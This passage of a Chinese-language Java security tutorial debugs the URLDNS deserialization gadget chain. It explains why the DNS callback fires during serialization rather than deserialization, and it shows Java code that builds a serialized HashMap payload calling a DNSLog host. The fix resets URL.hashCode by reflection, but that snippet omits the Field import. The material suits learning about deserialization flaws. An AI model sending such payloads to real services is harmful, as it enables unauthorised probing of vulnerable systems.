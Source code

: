## 问题以及优化

大体思路上对了，再跟代码的时候发现问题如下-->

将断点下在下图处，运行 Unserialize 类

![alt text](10.png)

接着到这里 hashCode 方法这里

![alt text](13.png)

下面按照预期是到 URL 类对象的 hashCode 方法里面

![alt text](14.png)

确实是到 URL 这里了，但是可以发现由于 hashCode 已经有值了，那么就会直接`return hashCode;`，那么这里其实根本就没有去执行后续的 sink，但是 DNSLog 平台上依然收到了值，后续再调试调试就会发现并不是运行 Unserialize 类触发了 sink，而是运行 Serialize 类的时候里面的`put()`函数就已经触发了 sink（这里就不跟了），且触发完 sink 还将 hashCode 赋值了，如下-->

![alt text](15.png)

即序列化时就 hashCode 的值就为 2133919961，所以反序列化的时候根本触发不了 sink！把 Serialize 类的代码单拉出来，做一些修改

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.net.URL;
import java.util.HashMap;

public class Serialize {
    public static void main(String[] args) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://test.cxsys.spacestabs.top");
        hashmap.put(url,1);

        outputStream.writeObject(hashmap);
        outputStream.close();
    }
}
```

需求是在`hashmap.put(url,1);`这行代码执行完后，把 hashCode 的值改回初始值，也就是-1，这里反射去改就好了。改完的代码如下-->

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.net.URL;
import java.util.HashMap;

public class Serialize {
    public static void main(String[] args) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://test.cxsys.spacestabs.top");
        hashmap.put(url,1);
        Class<?> clazz = url.getClass();
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url,-1);
        outputStream.writeObject(hashmap);
        outputStream.close();
    }
}
```
